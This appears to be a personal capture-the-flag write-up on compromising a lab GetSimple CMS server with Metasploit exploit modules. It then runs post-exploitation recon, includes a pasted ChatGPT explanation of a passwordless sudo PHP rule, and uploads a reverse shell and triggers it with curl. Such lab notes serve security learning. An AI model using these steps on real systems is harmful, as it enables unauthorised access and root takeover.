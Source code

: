 

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![[../2. Recon/Images/Pasted image 20241007144838.png]]

This attack is successful and we are now username: www-data, Which allows us to grab the first capture flag
![[../2. Recon/Images/Pasted image 20241007145121.png]]

![[../2. Recon/Images/Pasted image 20241007145605.png]]

Following attack we execute the command below to identify any other potential paths for privilege escalation
```
run post/multi/recon/local_exploit_suggester
```

![[../2. Recon/Images/Pasted image 20241007170158.png]]

Check for sudo powers
```
run post/multi/recon/sudo_commands
```

![[Pasted image 20241007181120.png]]

From ChatGPT:
The sudo configuration you're looking at allows specific users to run certain commands with elevated privileges, typically as the root user or another user. Let's break it down:

| **Field**       | **Explanation**                                                                                                                                   |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Command**     | `/usr/bin/php` – This allows the execution of the PHP interpreter located at this path. Users can run any PHP script with elevated privileges.    |
| **RunAsUsers**  | `ALL` – The command can be run as any user, not just the root user. Users can impersonate any other user when running this command.               |
| **RunAsGroups** | `ALL` – The command can be run with the privileges of any group on the system.                                                                    |
| **Password?**   | `""` (empty) – No password is required when running the command with sudo. This bypasses the normal password prompt.                              |
| **Privesc?**    | `True` – Privilege escalation is allowed, meaning running this command can lead to higher permissions, such as root or another user's privileges. |
|                 |                                                                                                                                                   |

Upload reverseshell.php to data/uploads location

![[../2. Recon/Images/Pasted image 20241007214044.png]]



```
curl http://10.129.42.249/data/uploads/reverseshell.php
```

Validate Foothold, and proceed to next steps